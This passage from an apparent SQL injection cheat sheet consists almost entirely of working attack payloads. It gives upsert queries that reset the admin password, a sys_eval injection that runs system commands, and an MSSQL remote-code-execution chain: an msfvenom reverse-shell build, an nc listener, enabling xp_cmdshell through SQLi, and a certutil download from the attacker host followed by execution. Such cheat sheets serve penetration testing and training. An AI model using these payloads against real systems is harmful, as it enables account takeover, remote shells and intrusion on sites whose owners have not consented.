 This is a combination of **`UPDATE`** and **`INSERT`** operation. If a particular row already exists, it will be updated with new values. Here are examples that update password for the existing **`admin`** user.

```html
<!-- MySQL -->
INSERT INTO users (username, password) VALUES('admin', '') ON DUPLICATE KEY UPDATE password=''-- -

<!-- PostgreSQL, SQLite -->
INSERT INTO users (username, password) VALUES ('admin', '') ON CONFLICT (username) DO UPDATE SET password='password'--
```

  

## [Command Injection](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#command-injection)

```text
' UNION SELECT NULL,sys_eval('whoami') FROM users-- -
```

  

## [RCE](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#rce)

### [MSSQL](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#mssql-1-1-1)

1. In attack machine, prepare a payload for reverse shell.

Replace the ip address of `LHOST` with your ip.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe -o shell.exe
```

2. In attack machine, start a local web server to host the payload file.

```bash
python3 -m http.server 8000
```

3. In attack machine, start a listener to receiver incoming connection.

```bash
nc -lvnp 4444
```

4. In target website, execute the shell command with SQLi.

```html
<!-- 1. Enable the shell command -->
' ; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--

<!-- 2. Download our payload -->
' ; EXEC xp_cmdshell 'certutil -urlcache -f http://10.0.0.1:8000/shell.exe C:\Windows\Temp\shell.exe';--

<!-- 3. Execute the payload -->
' ; EXEC xp_cmdshell 'C:\Windows\Temp\shell.exe';--
```
